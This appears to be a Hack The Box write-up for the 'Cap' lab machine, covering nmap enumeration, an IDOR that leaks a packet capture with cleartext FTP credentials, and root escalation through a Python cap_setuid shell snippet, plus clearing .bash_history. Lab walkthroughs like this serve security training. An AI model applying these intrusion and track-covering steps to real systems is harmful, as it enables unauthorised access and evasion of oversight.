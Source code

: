 # HTB – Cap

**OS:** Ubuntu 20.04.2  
**Difficulty:** Easy  
**Date:** 2025-07-21  
**Box IP:** 10.10.10.245  
**Local IP:** 10.10.14.16  

---

## Engagement Overview

**Objectives:**

- Discover and exploit an IDOR (Insecure Direct Object Reference)
- Extract credentials from exposed packet capture
- Escalate privileges to root via Linux capabilities

---

## Service Enumeration

### Nmap - Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
```
**Result:**
- Port 21 – FTP (vsftpd 3.0.3)
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web server)

### Nmap - Service Enumeration
```bash
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

Key Observations:
- Gunicorn dashboard exposed on HTTP port
- No anonymous FTP access
- SSH accessible with potential brute-force vector if creds are found

### Nmap - Vulnerability Scan
```bash
nmap --script vuln -oN scans/vuln.txt 10.10.10.245
```

Findings:
- Possible CSRF forms on `/`, `/data/1`, `/ip`
- Slowloris DoS (CVE-2007-6750) likely vulnerable (not exploited)

---

## Initial Access – IDOR Exploitation

**Discovery:**
The web app exposes capture downloads via predictable `/data/<id>` URLs.

Browsing to `/data/0` revealed a capture not generated by the current session — classic IDOR vulnerability.

**Credential Extraction:**
Downloaded capture analyzed in Wireshark revealed cleartext FTP credentials:

```
USER: nathan
PASS: Buck3tH4TF0RM3!
```

---

## Foothold

### FTP Access
```bash
ftp 10.10.10.245
# Login successful with leaked credentials
```

Enumerated home directory and retrieved `user.txt`:
```bash
ftp> get user.txt
e64084b4cf1836347593df12f6a16b75
```

### SSH Access
Logged in successfully as `nathan` using same credentials.

---

## Privilege Escalation

### LinPEAS Findings
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Linux capabilities allow `python3.8` to run with `cap_setuid` — letting it change UID without setuid bit. This means we can invoke root shell with Python directly.

### Exploit
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

Successfully escalated to root. Retrieved `root.txt`:
```
f0f8a2a1d4bfdea7688e471cf3ad04a4
```

---

## Post-Exploitation

### Cleanup
- Removed `linpeas.sh`
- Cleared `.bash_history`

### Credentials & Flags
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`  
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`  

---

## Tools Utilized
- `nmap`, `ssh`, `ftp`, `python3`
- Wireshark
- LinPEAS

---

## Key Takeaways

**Skills Required:**
- Web enumeration
- Packet analysis

**Skills Learned:**
- Insecure Direct Object Reference (IDOR)
- Exploiting Linux capabilities for privilege escalation
